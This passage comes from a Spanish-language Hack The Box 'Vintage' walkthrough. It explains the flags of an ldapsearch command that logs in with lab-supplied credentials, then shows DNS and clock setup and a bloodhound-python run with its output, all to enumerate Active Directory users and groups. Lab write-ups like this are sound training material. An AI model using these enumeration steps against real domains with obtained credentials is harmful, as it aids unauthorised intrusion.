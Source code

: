 
Explicación de cada parte.

    ldapsearch: Esta es una herramienta de línea de comandos para consultar directorios LDAP.
    -x: Indica utilizar autenticación simple en lugar de autenticación SASL.
    -H ldap://<IP>: Especifique la dirección del servidor LDAP (reemplácela con la dirección IP real <IP>).
    -D "P.Rosa@vintage.htb": DN vinculante (nombre distinguido), que es la credencial de usuario utilizada para iniciar sesión en el servidor LDAP.
    -w "Rosaisbest123": Especifique la contraseña del usuario vinculado.
    -b "DC=vintage,DC=htb": Especifique el DN base de la búsqueda (Base DN), es decir, el nodo desde el que comenzar a buscar en el directorio LDAP.
    "(objectClass=user)": Este es un filtro que especifica que solo userse consulten las entradas con clase de objeto.
    sAMAccountName memberOf: Especifica las propiedades que se devolverán. sAMAccountNameEs el nombre de inicio de sesión del usuario e memberOfindica el grupo al que pertenece el usuario.

Utilice la información de usuario proporcionada en la pregunta para realizar el inicio de sesión remoto ldap y enumerar los usuarios y grupos en el dominio.

Hay una computadora con el nombre de dominio. FS01.vintage.htb.Parece ser esta máquin

modificamos el /etc/resolv.conf
#nameserver 192.168.xxx.xxx
nameserver 10.10.11.45

tenemos que poner # a todos los previos.

cambiamos la hora para sincronizarla con kerberos

ntpdate dc01.vintage.htb

2024-12-26 12:18:25.319966 (+0100) +0.732592 +/- 0.018839 dc01.vintage.htb 10.10.11.45 s1 no-leap
CLOCK: time stepped by 0.732592

ahora lanzamos el bloodhound-python para recopilar informacion

bloodhound-python -c All -u P.Rosa -p 'Rosaisbest123' -d vintage.htb -ns 10.10.11.45      
INFO: Found AD domain: vintage.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.vintage.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc01.vintage.htb
INFO: Found 16 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: FS01.vintage.htb
INFO: Querying computer: dc01.vintage.htb
WARNING: Could not resolve: FS01.vintage.htb: The resolution lifetime expired after 3.102 seconds: Server Do53:10.10.11.45@53 answered The DNS operation timed out.
INFO: Done in 00M 10S
